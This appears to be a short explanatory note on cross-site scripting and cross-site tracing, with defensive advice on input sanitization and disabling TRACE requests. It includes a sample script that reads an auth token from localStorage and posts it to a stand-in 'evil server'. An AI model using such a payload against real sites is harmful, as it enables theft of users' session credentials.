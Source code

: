 # XSS

XSS (Cross site scripting) is an attack where one runs a script (typically
JavaScript) in another user's browser. This can happen if user inputs are not
correctly sanitized and then displayed back to users.

For example, if one makes a blog post on a site containing

```html
<script>
  alert("XSS");
</script>
```

and when visiting said blog post `XSS` is alerted, the we have found an XSS
vulnerability.

XSS can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)

For example, the following could grab a token in persisted Redux store and post
it to an evil server.

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.

## XST

There is something called Cross-Site Tracing (XST) where one uses a HTTP Track
request to bypass the `httpOnly` attribute in a cookie. To protect against XST,
make sure Track requests are disabled (especially from JavaScript).
